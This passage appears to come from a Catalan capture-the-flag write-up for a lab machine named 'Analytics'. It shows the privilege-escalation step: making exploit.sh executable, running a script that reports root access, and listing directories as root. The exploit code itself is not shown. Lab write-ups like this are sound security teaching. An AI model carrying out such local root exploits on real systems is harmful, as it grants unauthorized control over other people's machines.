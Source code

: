 Li donem permisos d’execució:

```
metalytics@analytics:~/MARTIKO$ chmod +x exploit.sh

metalytics@analytics:~/MARTIKO$
````
  

I ara l’executem i ja obtenim accés com a **usuari root**. Ara podem anar a /root i aconseguir la flag root.txt.

```
root@analytics:~# mkdir tv

root@analytics:~# cd tv

root@analytics:~/tv# nano mi.sh

root@analytics:~/tv# sh ./mi.sh

[+] You should be root now

[+] Type 'exit' to finish and leave the house cleaned

cp: cannot create regular file '/var/tmp/bash': Text file busy

root@analytics:~/tv# ls -lah

total 28K

drwxrwxr-x 6 root metalytics 4.0K Jan 31 18:54 .

drwxr-x--- 11 metalytics metalytics 4.0K Jan 31 18:54 ..

drwxrwxr-x 2 root metalytics 4.0K Jan 31 18:54 l

drwxrwxr-x 2 root metalytics 4.0K Jan 31 18:54 m

-rw-rw-r-- 1 root metalytics 558 Jan 31 18:54 mi.sh

drwxrwxr-x 2 root metalytics 4.0K Jan 31 18:54 u

drwxrwxr-x 3 root metalytics 4.0K Jan 31 18:54 w

root@analytics:~/tv# cd ..

root@analytics:~# ls -lah

total 72K

drwxr-x--- 11 metalytics metalytics 4.0K Jan 31 18:54 .

drwxr-xr-x 3 root root 4.0K Aug 8 11:37 ..

lrwxrwxrwx 1 root root 9 Aug 3 16:23 .bash_history -> /dev/null

-rw-r--r-- 1 metalytics metalytics 220 Aug 3 08:53 .bash_logout

-rw-r--r-- 1 metalytics metalytics 3.7K Aug 3 08:53 .bashrc

drwx------ 2 metalytics metalytics 4.0K Aug 8 11:37 .cache

-rw-rw-r-- 1 metalytics metalytics 558 Jan 31 18:53 exploit.sh

drwx------ 3 metalytics metalytics 4.0K Jan 31 18:32 .gnupg
```